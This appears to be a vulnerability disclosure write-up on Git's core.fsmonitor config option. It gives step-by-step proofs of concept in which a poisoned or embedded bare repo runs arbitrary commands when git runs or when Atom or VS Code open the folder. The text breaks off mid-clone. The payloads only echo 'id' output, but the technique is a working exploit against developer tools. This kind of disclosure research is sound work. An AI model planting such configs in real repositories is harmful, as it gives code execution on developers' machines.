The embedded Git repo can have a malicious `config` file, which can cause the user's `git` utility to execute arbitrary code if the user performs a Git operation while within the subdirectory containing the bare repo (or a child directory thereof).

## POC - regular vs. bare repos, and adding a `core.fsmonitor` payload to a bare repo

This POC uses the following Docker image:

```plain
% cat Dockerfile
FROM debian:sid

RUN \
    apt-get update && \
    apt-get install -y git && \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/git .
[... SNIP ...]
Successfully built 63dea543bbaf
Successfully tagged justinsteven/git:latest

% sudo -g docker docker run --rm -ti justinsteven/git bash

root@f3eed6860a67:/# git --version
git version 2.32.0
```

A regular Git repo looks like this:

```plain
root@f3eed6860a67:/# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# git init

Initialized empty Git repository in /tmp/tmp.NZmB2Hmt1V/.git/

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# find -ls
  1310832      4 drwx------   3 root     root         4096 Jul 25 02:04 .
  1310837      4 drwxr-xr-x   7 root     root         4096 Jul 25 02:04 ./.git
  1310838      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/info
  1310839      4 -rw-r--r--   1 root     root          240 Jul 25 02:04 ./.git/info/exclude
  1310901      4 -rw-r--r--   1 root     root           92 Jul 25 02:04 ./.git/config
  1310899      4 -rw-r--r--   1 root     root           21 Jul 25 02:04 ./.git/HEAD
  1310840      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/branches
  1310896      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:04 ./.git/refs
  1310898      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/refs/tags
  1310897      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/refs/heads
  1310841      4 -rw-r--r--   1 root     root           73 Jul 25 02:04 ./.git/description
  1310900      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:04 ./.git/objects
  1310902      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/objects/pack
  1310903      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/objects/info
  1310842      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:04 ./.git/hooks
  1310843      4 -rwxr-xr-x   1 root     root         2783 Jul 25 02:04 ./.git/hooks/push-to-checkout.sample
  1310844      4 -rwxr-xr-x   1 root     root          189 Jul 25 02:04 ./.git/hooks/post-update.sample
  1310845      4 -rwxr-xr-x   1 root     root          424 Jul 25 02:04 ./.git/hooks/pre-applypatch.sample
  1310846      4 -rwxr-xr-x   1 root     root         1643 Jul 25 02:04 ./.git/hooks/pre-commit.sample
  1310847      4 -rwxr-xr-x   1 root     root         1492 Jul 25 02:04 ./.git/hooks/prepare-commit-msg.sample
  1310848      8 -rwxr-xr-x   1 root     root         4655 Jul 25 02:04 ./.git/hooks/fsmonitor-watchman.sample
  1310849      4 -rwxr-xr-x   1 root     root          478 Jul 25 02:04 ./.git/hooks/applypatch-msg.sample
  1310850      4 -rwxr-xr-x   1 root     root          416 Jul 25 02:04 ./.git/hooks/pre-merge-commit.sample
  1310851      4 -rwxr-xr-x   1 root     root          896 Jul 25 02:04 ./.git/hooks/commit-msg.sample
  1310852      4 -rwxr-xr-x   1 root     root         1374 Jul 25 02:04 ./.git/hooks/pre-push.sample
  1310853      8 -rwxr-xr-x   1 root     root         4898 Jul 25 02:04 ./.git/hooks/pre-rebase.sample
  1310894      4 -rwxr-xr-x   1 root     root         3650 Jul 25 02:04 ./.git/hooks/update.sample
  1310895      4 -rwxr-xr-x   1 root     root          544 Jul 25 02:04 ./.git/hooks/pre-receive.sample

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true

root@f3eed6860a67:/tmp/tmp.NZmB2Hmt1V# git status
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

While a "bare" Git repo looks like this:

```plain
root@f3eed6860a67:~# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.j2m7Whe3y0# git init --bare

Initialized empty Git repository in /tmp/tmp.j2m7Whe3y0/

root@f3eed6860a67:/tmp/tmp.j2m7Whe3y0# find -ls
  1310932      4 drwx------   7 root     root         4096 Jul 25 02:06 .
  1310933      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./info
  1310934      4 -rw-r--r--   1 root     root          240 Jul 25 02:06 ./info/exclude
  1310965      4 -rw-r--r--   1 root     root           66 Jul 25 02:06 ./config
  1310964      4 -rw-r--r--   1 root     root           21 Jul 25 02:06 ./HEAD
  1310935      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./branches
  1310961      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:06 ./refs
  1310963      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./refs/tags
  1310962      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./refs/heads
  1310936      4 -rw-r--r--   1 root     root           73 Jul 25 02:06 ./description
  1310966      4 drwxr-xr-x   4 root     root         4096 Jul 25 02:06 ./objects
  1310967      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./objects/pack
  1310968      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./objects/info
  1310937      4 drwxr-xr-x   2 root     root         4096 Jul 25 02:06 ./hooks
  1310945      4 -rwxr-xr-x   1 root     root         2783 Jul 25 02:06 ./hooks/push-to-checkout.sample
  1310947      4 -rwxr-xr-x   1 root     root          189 Jul 25 02:06 ./hooks/post-update.sample
  1310948      4 -rwxr-xr-x   1 root     root          424 Jul 25 02:06 ./hooks/pre-applypatch.sample
  1310949      4 -rwxr-xr-x   1 root     root         1643 Jul 25 02:06 ./hooks/pre-commit.sample
  1310950      4 -rwxr-xr-x   1 root     root         1492 Jul 25 02:06 ./hooks/prepare-commit-msg.sample
  1310951      8 -rwxr-xr-x   1 root     root         4655 Jul 25 02:06 ./hooks/fsmonitor-watchman.sample
  1310954      4 -rwxr-xr-x   1 root     root          478 Jul 25 02:06 ./hooks/applypatch-msg.sample
  1310955      4 -rwxr-xr-x   1 root     root          416 Jul 25 02:06 ./hooks/pre-merge-commit.sample
  1310956      4 -rwxr-xr-x   1 root     root          896 Jul 25 02:06 ./hooks/commit-msg.sample
  1310957      4 -rwxr-xr-x   1 root     root         1374 Jul 25 02:06 ./hooks/pre-push.sample
  1310958      8 -rwxr-xr-x   1 root     root         4898 Jul 25 02:06 ./hooks/pre-rebase.sample
  1310959      4 -rwxr-xr-x   1 root     root         3650 Jul 25 02:06 ./hooks/update.sample
  1310960      4 -rwxr-xr-x   1 root     root          544 Jul 25 02:06 ./hooks/pre-receive.sample

root@f3eed6860a67:/tmp/tmp.j2m7Whe3y0# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = true

root@f3eed6860a67:/tmp/tmp.j2m7Whe3y0# git status
fatal: this operation must be run in a work tree
```

The main differences, for our purpose, are as follows:

* A regular repo puts the metadata files in a directory named `.git` while the bare repo puts the metadata files in the directory itself
* A regular repo has `bare = false` in its `config` file while a bare repo has `bare = true`
* `git status` works in a regular repo out of the box, while it fails in a bare repo

To have `git status` work in a bare repo, we can create a work tree directory and set the `core.worktree` variable in `config` to point to it.

```plain
root@f3eed6860a67:~# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git init --bare
Initialized empty Git repository in /tmp/tmp.WioZeUmHdX/

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# mkdir worktree

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# echo $'\tworktree = "worktree"' >> config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = true
	worktree = "worktree"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
warning: core.bare and core.worktree do not make sense
fatal: unable to set up work tree using invalid config
```

Oops, now `git` is complaining that a work tree is set for a bare repo which doesn't make sense. We can set `core.bare` to `false` to fix this. Our repo will still have the structure of a bare repo (in as much as it's not contained within a `.git` directory) but Git will treat it as a regular repo with a work tree.

```plain
root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# sed -i 's/bare = true/bare = false/g' config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

At this point, we can set `core.fsmonitor` to contain a payload which will execute upon commands such as `git status`:

```plain
root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2;false"' >> config

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"

root@f3eed6860a67:/tmp/tmp.WioZeUmHdX# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)
```

## POC - Burying a malicious bare repo within a regular repo

Create the regular repo and the embedded malicious bare repo

```plain
root@f3eed6860a67:~# mkdir ~/malicious

root@f3eed6860a67:~# cd ~/malicious/

root@f3eed6860a67:~/malicious# git init
Initialized empty Git repository in /root/malicious/.git/

root@f3eed6860a67:~/malicious# mkdir poison

root@f3eed6860a67:~/malicious# cd poison/

root@f3eed6860a67:~/malicious/poison# echo 'ref: refs/heads/main' > HEAD

root@f3eed6860a67:~/malicious/poison# cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">&2;false"
^D

root@f3eed6860a67:~/malicious/poison# mkdir objects refs worktree

root@f3eed6860a67:~/malicious/poison# touch worktree/.gitkeep

root@f3eed6860a67:~/malicious/poison# git add .gitkeep
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

root@f3eed6860a67:~/malicious/poison# git commit -m 'add gitkeep'
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
[main (root-commit) 4d195f3] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep
```

Add and commit the embedded bare repo to the regular repo

```plain
root@f3eed6860a67:~/malicious/poison# cd ..

root@f3eed6860a67:~/malicious# git add poison/

root@f3eed6860a67:~/malicious# git commit -m 'add poison'
[main (root-commit) f8a791f] add poison
 11 files changed, 14 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/4d/195f35c689356e0a86bfd7e31e75d02d721170
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep
```

Start a Git daemon to allow the repo to be cloned:

```plain
root@421f854b575a:~/malicious# git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[153] Ready to rumble
```

Start a new shell within the container and clone the Git repo:

```plain
% sudo -g docker docker exec -ti f3eed6860a67 bash

root@f3eed6860a67:/#

root@421f854b575a:/# cd $(mktemp -d)

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n# git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (23/23), done.
```

`cd` into the cloned repo and do `git status` from the root. Nothing interesting happens.

```plain
root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n# cd 127.0.0.1/

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1# git status
On branch main
Your branch is up to date with 'origin/main'.

nothing to commit, working tree clean
```

`cd` into the embedded bare repo and do `git status`. Observe that the `core.fsmonitor` payload executes.

```plain
root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1# cd poison/

root@f3eed6860a67:/tmp/tmp.hz1iFlAo2n/127.0.0.1/poison# git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main
nothing to commit, working tree clean
```

# Exploitation via `core.fsmonitor` in IDEs

Returning to the "abuse via `core.fsmonitor`" concept, various IDEs can be shown to be vulnerable when opening directories containing a malicious `.git` directory.

An IDE (Integrated Development Environment) is a software development text editor with integrations for compilers, debuggers, linters, version control systems and so on.

Opening a directory within an IDE is a common activity for software developers and source code reviewers. Doing so shows a recursive tree view of all files within the directory and allows for things such as global search and "jump to definition" or "show all usages".

Upon opening a directory within an IDE, many IDEs will opportunistically and immediately parse it as a Git repo (if `.git` exists) in order to show file history, show changes made to the working tree, provide a graphical interface for committing changes and pushing/pulling commits, and so on. Many IDEs that do this opportunistic parsing do so by executing `git` in the context of the opened directory. Given a directory that contains a `.git/config` file with malicious contents, such an IDE can be made to execute arbitrary code upon simply opening a directory.

The following sections will discuss the exploitation of several IDEs, including:

* GitHub Atom - arbitrary command execution
* Microsoft Visual Studio Code - arbitrary command execution
    * Includes chaining with OVE-20210718-0001 to allow exploitation via `git clone`
* Visual Studio 2019 Community - arbitrary command execution bypassing the MOTW protection
* Visual Studio 2022 Community - arbitrary command execution
* JetBrains IDEs (IntelliJ IDEA, PyCharm, WebStorm etc.) - arbitrary command execution bypassing various "Safe Mode" protections

## Atom - Arbitrary Command Execution

* Version tested: [1.58.0](https://github.com/atom/atom/releases/tag/v1.58.0) on Linux
* Also tested: [1.60.0](https://github.com/atom/atom/releases/tag/v1.60.0) on Linux

Not patched or mitigated as of the time of publication.

[Atom](https://github.com/atom/atom) is a "hackable text editor for the 21st century, built on Electron, and based on everything we love about our favorite editors." It is cross-platform with builds available for macOS, Windows and Linux.

Upon opening a directory in Atom, it will opportunistically execute `git` so that it can provide [various Git functions](https://flight-manual.atom.io/using-atom/sections/version-control-in-atom/).

Given a directory that contains a malicious `.git/config` file, arbitrary code can be executed upon opening that directory in Atom.

### Atom POC

Build a Docker image that contains `git`, Atom, its dependencies, a non-root user (for X passthrough purposes), and a simple Git user configuration for that user. When building the image, have the non-root user be created with the same UID and GID as the user running X on the host.

```plain
% cat Dockerfile
FROM debian:sid

ARG USERNAME=user
ARG USER_UID=1001
ARG USER_GID=1001

RUN \
    # Install software
    apt-get update && \
    apt-get install -y \
        git \
        # For downloading atom
        wget \
        # atom dependencies
        libasound2 \
        libgbm1 \
        strace \
    && wget https://atom.io/download/deb -O /root/atom.deb && \
    dpkg -i /root/atom.deb; apt-get install -y -f && \
    rm /root/atom.deb && \
    # Create user (For X passthrough purposes)
    groupadd -g $USER_GID $USERNAME && \
    useradd -m -u $USER_UID -g $USER_UID $USERNAME

USER $USERNAME

# Configure git
RUN \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/atom --build-arg=USER_UID=$(id -u) --build-arg=USER_GID=$(id -g) .
[... SNIP ...]
Successfully built aa909f7d9f8c
Successfully tagged justinsteven/atom:latest
```

Atom is built on Electron which uses Chromium which [needs certain syscalls to be able to sandbox itself](https://blog.jessfraz.com/post/how-to-use-new-docker-seccomp-profiles/). Download Jessie Frazelle's Chrome seccomp profile and add the `statx` syscall to the allowlist as it is [used by modern `ls` if available](https://github.com/coreutils/coreutils/commit/a99ab266110795ed94a9cb4d2765ddad9c4310da) (without `statx` in the allowlist, `ls` within the container will try to use it and will fail):

```plain
% wget 'https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json'
--2021-08-08 14:52:59--  https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36373 (36K) [text/plain]
Saving to: ‘chrome.json’

chrome.json                       100%[=============================================================>]  35.52K  --.-KB/s    in 0.001s

2021-08-08 14:52:59 (28.4 MB/s) - ‘chrome.json’ saved [36373/36373]

% jq '.["syscalls"] += [{"name": "statx", "action": "SCMP_ACT_ALLOW", "args": null}]' chrome.json > chrome_with_statx.json
```

Start the image as a container and pass X through to it:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/atom bash

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ atom -v
Atom    : 1.58.0
Electron: 9.4.4
Chrome  : 83.0.4103.122
Node    : 12.14.1
```

Create an empty Git repo:

```plain
user@7e031ffb2f03:/$ cd $(mktemp -d)

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ mkdir poc

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ git -C poc init
Initialized empty Git repository in /tmp/tmp.GnAV27DcXj/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Observe that `/tmp/win` does not exist. Run `atom` against the directory containing the malicious `.git` directory, have Atom pop up as an X application, and observe that `/tmp/win` now contains the results of our payload:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ atom poc

[... atom opens as an X application ...]

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```

## Visual Studio Code - Arbitrary Command Execution (CVE-2021-43891)

* Version tested: [1.59.0](https://code.visualstudio.com/updates/v1_59) on Linux

Fixed in [1.63.1](https://code.visualstudio.com/updates/v1_63) by disabling the Git extension in untrusted workspaces ([PR](https://github.com/microsoft/vscode/issues/139124), [commit](https://github.com/microsoft/vscode/commit/67d6356a25661ecd2bdaf13a3fc8c9d14ee5161f)).

[Visual Studio Code](https://code.visualstudio.com/) is a cross-platform IDE available for macOS, Windows and Linux. Its homepage says:

> Git commands built-in.
>
> Working with Git and other SCM providers has never been easier. Review diffs, stage files, and make commits right from the editor. Push and pull from any hosted SCM service

When opening a directory within Visual Studio Code <1.63.1, or when opening and trusting a directory in >=1.63.1, it opportunistically executes `git` to provide this integration. Given a directory that contains a malicious `.git/config` file, Visual Studio Code can be made to execute arbitrary commands.

Thanks to `git.ignoredRepositories` which can be configured via Visual Studio Code's Workspace Settings feature, there is a novel way to chain with OVE-20210718-0001 to achieve exploitation via a simple `git clone` followed by a opening of the cloned repo. This is discussed in further detail below.

As of the time of writing, vulnerabilities in Visual Studio Code extensions are considered out of scope of the [Azure Bug Bounty](https://www.microsoft.com/en-us/msrc/bounty-microsoft-azure). MSRC confirmed to me in July 2021 that this includes vulnerabilities in extensions that are built-in to Visual Studio Code, cannot be disabled, and for which the Workspace Trust feature provides no protection, and that the scope applies as it's written "to provide a fair experience to all hackers". I did not submit this issue to MSRC. It was submitted by [Thomas Chauchefoin](https://twitter.com/swapgs) and [Paul Gerste](https://twitter.com/pspaul95) of [SonarSource](https://www.sonarsource.com/) and was mitigated in 1.63.1 two months later.

[Thomas and Paul's publication](https://blog.sonarsource.com/securing-developer-tools-git-integrations) says:

> Microsoft assigned CVE-2021-43891 to this vulnerability, as well as a consequent monetary bounty that we donated to charities.

It is not clear why MSRC offered a reward for this submission contrary to their scope.

### Visual Studio Code POC

Build a Docker image that contains `git`, Visual Studio Code <1.63.1, its dependencies, a non-root user (for X passthrough purposes), and a simple Git user configuration for that user. When building the image, have the non-root user be created with the same UID and GID as the user running X on the host.

```plain
% cat Dockerfile
FROM debian:sid

ARG USERNAME=user
ARG USER_UID=1001
ARG USER_GID=1001

RUN \
    # Install software
    apt-get update && \
    apt-get install -y \
        git \
        # For downloading vscode
        wget \
        # vscode dependencies
        libasound2 \
        libx11-xcb1 \
        libxshmfence1 \
    && wget 'https://code.visualstudio.com/sha/download?build=stable&os=linux-deb-x64' -O /root/vscode.deb && \
    dpkg -i /root/vscode.deb; apt-get install -y -f && \
    rm /root/vscode.deb && \
    # Create user (For X passthrough purposes)
    groupadd -g $USER_GID $USERNAME && \
    useradd -m -u $USER_UID -g $USER_UID $USERNAME

USER $USERNAME

# Configure git
RUN \
    git config --global init.defaultBranch main && \
    git config --global user.name "Your Name" && \
    git config --global user.email "you@example.com"

% sudo -g docker docker build --tag=justinsteven/vscode --build-arg=USER_UID=$(id -u) --build-arg=USER_GID=$(id -g) .
[... SNIP ...]
Successfully built 728d7b24de9b
Successfully tagged justinsteven/vscode:latest
```

Visual Studio Code is built on Electron which uses Chromium which [needs certain syscalls to be able to sandbox itself](https://blog.jessfraz.com/post/how-to-use-new-docker-seccomp-profiles/). Download Jessie Frazelle's Chrome seccomp profile and add the `statx` syscall to the allowlist as it is [used by modern `ls` if available](https://github.com/coreutils/coreutils/commit/a99ab266110795ed94a9cb4d2765ddad9c4310da) (without `statx` in the allowlist, `ls` within the container will try to use it and will fail):

```plain
% wget 'https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json'
--2021-08-13 10:49:50--  https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36373 (36K) [text/plain]
Saving to: ‘chrome.json’

chrome.json     100%[======>]  35.52K  --.-KB/s    in 0.003s

2021-08-13 10:49:50 (10.8 MB/s) - ‘chrome.json’ saved [36373/36373]

% jq '.["syscalls"] += [{"name": "statx", "action": "SCMP_ACT_ALLOW", "args": null}]' chrome.json > chrome_with_statx.json
```

Start the image as a container and pass X through to it:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/vscode bash
```

Check to see that the installed version is <1.63.1:

```plain
user@bc05a20ade67:/$ code -v
1.59.0
379476f0e13988d90fab105c5c19e7abc8b1dea8
x64
```

Create an empty Git repo:

```plain
user@bc05a20ade67:/$ cd $(mktemp -d)

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ mkdir poc

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ git -C poc init
Initialized empty Git repository in /tmp/tmp.BQ45nvYKcU/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```

Observe that `/tmp/win` does not exist. Run `code` against the directory containing the malicious `.git` directory, have Visual Studio Code pop up as an X application, and observe that `/tmp/win` now contains the results of our payload:

```plain
user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ code poc

[... Visual Studio Code opens as an X application ...]

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```

Note that Visual Studio Code, from version 1.57 onwards, will prompt you to trust the workspace. This is due to the "Workspace Trust" feature ([Blog post](https://code.visualstudio.com/blogs/2021/07/06/workspace-trust), [Documentation](https://code.visualstudio.com/docs/editor/workspace-trust)) which prompts the user on every opening or a file or workspace as to whether the contents should be trusted. In Visual Studio Code <1.63.1, the Git extension [opted out](https://github.com/microsoft/vscode/blob/383c9cf61310017a04e3419d40622ee24c375ee1/extensions/git/package.json#L31-L33) of the protections afforded by the Workspace Trust feature. This means that our payload will execute regardless of whether the user chooses to trust the workspace - in fact, it will execute while the trust prompt is being shown:


From version 1.63.1 onwards, the Git extension opts in to the Workspace Trust feature, causing the dangerous functionality to be disabled if the user chooses to not trust the workspace being opened.

### Visual Studio Code POC (Chained with OVE-20210718-0001 via `git clone`)

Visual Studio Code's [Workspace Settings](https://code.visualstudio.com/docs/getstarted/settings), which are provided by a workspace's `.vscode/settings.json` file, give us an interesting opportunity to chain with OVE-20210718-0001.

We can have a cloneable Git repo which:

* Has a `.vscode/settings.json` file which uses the `git.ignoredRepositories` configuration parameter to tell Visual Studio Code to ignore the root directory for Git repository purposes
* Has a `poison/` directory which contains an embedded bare repo with a malicious `config` file, per OVE-20210718-0001

Upon cloning and opening the root directory of such a crafted Git repository, Visual Studio Code will ignore the `.git` in the root of the workspace and will crawl the remainder of the workspace's directories in search of a Git repository. It will then execute `git` against the bare repo embedded in the `poison/` directory, executing our payload via `core.fsmonitor`

Start off by running the image from the above POC as a container with X passed through and the seccomp profile specified:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/vscode bash

user@a46e008b1311:/$ code -v
1.59.0
379476f0e13988d90fab105c5c19e7abc8b1dea8
x64
```

Create a new Git repo with an embedded bare repo (per OVE-20210718-0001):

```plain
user@a46e008b1311:/$ cd $(mktemp -d)

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git init
Initialized empty Git repository in /tmp/tmp.FBZkahzNAG/.git/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ mkdir poison

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ cd poison/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ echo 'ref: refs/heads/main' > HEAD

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win;false"
^D

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ mkdir objects refs worktree

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ touch worktree/.gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git add .gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git commit -m 'add gitkeep'
[main (root-commit) 6836c86] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 .gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ cd ..

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git add poison/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git commit -m 'add poison'
[main (root-commit) ede4e2c] add poison
 11 files changed, 13 insertions(+)
 create mode 100644 poison/COMMIT_EDITMSG
 create mode 100644 poison/HEAD
 create mode 100644 poison/config
 create mode 100644 poison/index
 create mode 100644 poison/logs/HEAD
 create mode 100644 poison/logs/refs/heads/main
 create mode 100644 poison/objects/68/36c867dc3f751f3da5d525213e02efb9c54b5d
 create mode 100644 poison/objects/d5/64d0bc3dd917926892c55e3706cc116d5b165e
 create mode 100644 poison/objects/e6/9de29bb2d1d6434b8b29ae775ad8c2e48c5391
 create mode 100644 poison/refs/heads/main
 create mode 100644 poison/worktree/.gitkeep
```

Add and commit a `.vscode/settings.json` file which specifies a `git.ignoredRepositories` value containing the value `"."`

```plain
user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ mkdir .vscode

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ echo '{"git.ignoredRepositories": ["."]}' > .vscode/settings.json

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git add .vscode/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git commit -m 'add workspace settings'
[main 0fe407e] add workspace settings
 1 file changed, 1 insertion(+)
 create mode 100644 .vscode/settings.json
```

Start a Git daemon to allow the repo to be cloned:

```plain
user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[50] Ready to rumble
```

Start a new shell within the container and clone the Git repo:

```plain
% sudo -g docker docker exec -ti a46e008b1311 bash

user@a46e008b1311:/$ cd $(mktemp -d)

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
